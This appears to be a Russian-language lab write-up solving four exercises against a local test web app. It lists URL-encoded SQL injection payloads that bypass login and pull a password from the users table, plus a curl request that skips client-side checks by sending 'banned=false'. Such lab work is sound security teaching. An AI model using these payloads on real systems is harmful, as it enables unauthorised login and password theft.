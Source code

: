 ## Задание 1 - обойти "защиту" двумя способами:

###     Обойти защиту можно кодированием кавычек. Осуществим вход:
        %27 or 1=1; --
    
###     Войдём под произвольным логином:
        %27 or 1=1 union select %27xexe%27 order by 1 desc; --
    
    
## Задание 2 - обойти клиентскую защиту с помощью curl:
    curl 'http://localhost:8080/signin' \
      -v\
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
      -H 'Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7' \
      -H 'Cache-Control: max-age=0' \
      -H 'Connection: keep-alive' \
      -H 'Content-Type: application/x-www-form-urlencoded' \
      -H 'If-None-Match: W/"a-H50XstGsGKp4UEvDuCvu61ziNnA"' \
      -H 'Origin: http://localhost:8080' \
      -H 'Referer: http://localhost:8080/login.html' \
      -H 'Sec-Fetch-Dest: document' \
      -H 'Sec-Fetch-Mode: navigate' \
      -H 'Sec-Fetch-Site: same-origin' \
      -H 'Sec-Fetch-User: ?1' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36' \
      -H 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"' \
      -H 'sec-ch-ua-mobile: ?0' \
      -H 'sec-ch-ua-platform: "macOS"' \
      --data-raw 'name=Jacob&pass=Jacob&banned=false' \
      --compressed
      
      
## Задание 3 (?) - обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded):
    %27 or 1=1; --
    
## Задание 4 - обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД: 
    %27 or 1=1 union select (select min(pass) from users) order by 1 asc limit 1; --
